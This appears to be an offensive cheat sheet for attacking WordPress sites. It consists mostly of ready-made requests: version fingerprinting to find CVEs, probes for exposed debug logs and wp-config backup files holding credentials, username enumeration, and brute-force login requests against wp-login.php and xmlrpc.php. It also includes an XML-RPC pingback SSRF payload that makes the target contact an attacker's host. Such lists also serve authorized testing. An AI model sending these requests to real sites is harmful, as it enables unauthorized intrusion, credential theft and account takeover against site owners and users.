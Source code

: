 # WordPress

### How to Detect



If you visit `https://target.com` and see the source code, you will see the links to themes and plugins from WordPress. Or you can visit `https://target.com/wp-login.php`, it is the WordPress login admin page

1. Find the related CVE by checking the core, plugins, and theme version

* How to find the wordpress version

```
https://target.com/feed
https://target.com/?feed=rss2
```

* How to find the plugin version

```
https://target.com/wp-content/plugins/PLUGINNAME/readme.txt
https://target.com/wp-content/plugins/PLUGINNAME/readme.TXT
https://target.com/wp-content/plugins/PLUGINNAME/README.txt
https://target.com/wp-content/plugins/PLUGINNAME/README.TXT
```

> or change readme.txt to changelog.txt or readme.md

* How to find the theme version

```
https://target.com/wp-content/themes/THEMENAME/style.css
https://target.com/wp-content/themes/THEMENAME/readme.txt (If they have readme file)
```

If you found outdated core / plugins / themes, find the exploit at [https://wpscan.com](https://wpscan.com/)

2. Finding log files

```
http://target.com/wp-content/debug.log
```

3. Finding backup file wp-config

```
http://target.com/.wp-config.php.swp
http://target.com/wp-config.inc
http://target.com/wp-config.old
http://target.com/wp-config.txt
http://target.com/wp-config.html
http://target.com/wp-config.php.bak
http://target.com/wp-config.php.dist
http://target.com/wp-config.php.inc
http://target.com/wp-config.php.old
http://target.com/wp-config.php.save
http://target.com/wp-config.php.swp
http://target.com/wp-config.php.txt
http://target.com/wp-config.php.zip
http://target.com/wp-config.php.html
http://target.com/wp-config.php~
```

4. Get the username on the website

```
http://target.com/?author=1
```

or

```
http://target.com/wp-json/wp/v2/users
http://target.com/?rest_route=/wp/v2/users
```

5. Bruteforce

```
POST /wp-login.php HTTP/1.1
Host: target.com

log=admin&pwd=BRUTEFORCE_IN_HERE&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget.com%2Fwp-admin%2F&testcookie=1
```

or

```
POST /xmlrpc.php HTTP/1.1
Host: target.com

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>admin</value></param> 
<param><value>BRUTEFORCE_IN_HERE</value></param> 
</params> 
</methodCall>
```

6. XSPA in wordpress

```
POST /xmlrpc.php HTTP/1.1
Host: target.com

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://yourip:port</string></value>
</param><param>
<value>
<string>https://target.com></string>
</value>
</param></params>
</methodCall>
```

7. Register enabled

```
http://example.com/wp-login.php?action=register
```

\
